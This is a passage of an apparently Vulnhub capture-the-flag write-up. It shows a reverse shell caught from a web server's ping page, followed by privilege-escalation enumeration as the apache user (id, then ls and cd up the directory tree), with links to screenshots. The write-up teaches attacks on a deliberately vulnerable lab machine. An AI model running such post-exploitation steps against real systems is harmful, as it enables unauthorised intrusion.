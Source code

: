 ```
connect to [192.168.50.9] from (UNKNOWN) [192.168.50.254] 32784
bash: no job control in this shell
bash-3.00$ 
```

6. Enumerate to look for privilege escalation:
	* First let's check what permissions we have using: ```id```
```
bash-3.00$ id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-3.00$ 
```
	* Enumerate: ```ls```
```
bash-3.00$ ls
index.php
pingit.php
```
	* Produces nothing useful, move upwards:
```
bash-3.00$ cd ..
bash-3.00$ ls
cgi-bin
error
html
icons
manual
usage
```
	* Looks like nothing useful, continue:
```
bash-3.00$ cd ..
bash-3.00$ ls
account
cache
crash
db
empty
ftp
lib
local
lock
log
mail
nis
opt
preserve
run
spool
tmp
tux
www
yp
``` 
*	* Continue:
```
bash-3.00$ cd ..
bash-3.00$ ls
bin
boot
dev
etc
home
initrd
lib
```

[k2homepage]: https://github.com/jawyuhz/Vulnhub_Writeups/blob/master/Screenshots/K2homepage.png
[k2pingpage]: https://github.com/jawyuhz/Vulnhub_Writeups/blob/master/Screenshots/K2pingpage.png
[k2errorpage]: https://github.com/jawyuhz/Vulnhub_Writeups/blob/master/Screenshots/k2errorpage.png
[k2pingpage]: https://github.com/jawyuhz/Vulnhub_Writeups/blob/master/Screenshots/K2pingpage.png
[k2pingpage2]: https://github.com/jawyuhz/Vulnhub_Writeups/blob/master/Screenshots/K2pingpage2.png
[k2pingpage3]: https://github.com/jawyuhz/Vulnhub_Writeups/blob/master/Screenshots/K2pingpage3.png